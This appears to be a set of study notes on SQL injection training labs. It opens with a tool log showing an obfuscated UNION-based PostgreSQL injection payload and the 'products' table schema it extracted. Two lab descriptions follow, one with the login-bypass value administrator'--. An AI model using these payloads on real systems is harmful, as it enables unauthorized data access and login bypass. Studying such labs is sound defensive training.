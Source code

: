 ```bash
[00:58:24] [PAYLOAD] Pets' UNION ALL SELECT NULL,NULL,ARRAY_AGG((CHR(113)||CHR(120)||CHR(98)||CHR(106)||CHR(113))||COALESCE(attname::text,(CHR(32)))||(CHR(118)||CHR(106)||CHR(105)||CHR(101)||CHR(106)||CHR(109))||COALESCE(typname::text,(CHR(32)))||(CHR(113)||CHR(120)||CHR(120)||CHR(118)||CHR(113)))::text,NULL,NULL,NULL,NULL,NULL FROM pg_attribute b JOIN pg_class a ON a.oid=b.attrelid JOIN pg_type c ON c.oid=b.atttypid JOIN pg_namespace d ON a.relnamespace=d.oid WHERE b.attnum>0 AND a.relname=(CHR(112)||CHR(114)||CHR(111)||CHR(100)||CHR(117)||CHR(99)||CHR(116)||CHR(115)) AND nspname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99))-- cfoW

Database: public
Table: products
[8 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| category    | varchar |
| description | varchar |
| id          | int4    |
| image       | varchar |
| name        | varchar |
| price       | int4    |
| rating      | int4    |
| released    | int4    |
+-------------+---------+
```

#### SQL injection vulnerability allowing login bypass

> This lab contains an SQL injection vulnerability in the login function.
>
> To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user. 

<div class="component-solution is-expandable">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Use Burp Suite to intercept and modify the login request.
                    </li>
                    <li>
                        Modify the <code>username</code> parameter, giving it the value: <code>administrator'--</code>
                    </li>
                </ol>
            </div>
        </div>



#### SQL injection UNION attack, determining the number of columns returned by the query

> This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack. To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.
